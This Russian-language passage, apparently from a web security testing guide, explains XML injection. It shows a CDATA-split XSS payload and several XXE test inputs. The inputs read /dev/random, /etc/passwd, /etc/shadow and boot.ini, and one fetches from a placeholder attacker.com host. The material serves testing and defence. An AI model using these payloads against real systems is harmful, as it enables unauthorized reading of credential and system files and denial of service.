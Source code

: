 Рассмотрим конкретный пример. Предположим, у нас есть узел, содержащий некоторый текст, который будет отображаться пользователю.

```xml
<html>
    $HTMLCode
</html>
```

Тогда злоумышленник может ввести следующие данные:

`$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`

и получить следующий узел:

```xml
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
</html>
```

В процессе обработки разделители разделов CDATA удаляются, в результате чего создаётся следующий HTML-код:

```html
<script>
    alert('XSS')
</script>
```

в результате приложение уязвимо для XSS.

Внешняя сущность: Набор допустимых сущностей может быть расширен путем определения новых. Если определение сущности — это URI, такая называется внешней. Если не настроено иное, внешние сущности заставляют XML-парсер обращаться к ресурсу, указанному в URI, например, к файлу на локальном компьютере или к удалённой системе. Такое поведение подвергает приложение угрозам XML eXternal Entity (XXE), которые могут быть использованы для отказа в обслуживании локальной системы, получения несанкционированного доступа к файлам на локальной машине, сканирования удалённых машин и отказа в обслуживании удалённых систем.

Для проверки на наличие уязвимостей XXE можно использовать следующие входные данные:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

Этот тест может привести к сбою web-сервера (в системе UNIX), если XML-парсер попытается заменить сущность содержимым файла /dev/random.

Другие полезные тесты:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```
